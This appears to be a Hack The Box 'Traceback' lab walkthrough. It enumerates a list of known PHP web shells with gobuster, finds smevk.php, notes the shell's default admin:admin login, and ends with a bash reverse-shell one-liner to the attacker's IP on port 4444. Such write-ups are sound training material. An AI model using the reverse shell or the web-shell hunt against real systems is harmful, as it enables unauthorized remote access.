





# 10 - HTTP

# A backdoor is installed on the box



# Source review


As it turns out there is a repository named just like in the comment.





https://github.com/TheBinitGhimire/Web-Shells


# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traceback]
└──╼ $ cat shells.txt

TwemlowsShell.php
TwemlowsWebShell.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```
This is a list of shells in the repository.


# smevk.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traceback]
└──╼ $ gobuster dir -u http://10.10.10.181/ -w shells.txt  -o gobuster/shells.log -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/23 20:20:56 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
                                                
===============================================================
2021/08/23 20:21:00 Finished
===============================================================
```

# Web shell



Credentials:

* admin:admin


# Reverse Shell
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"
```


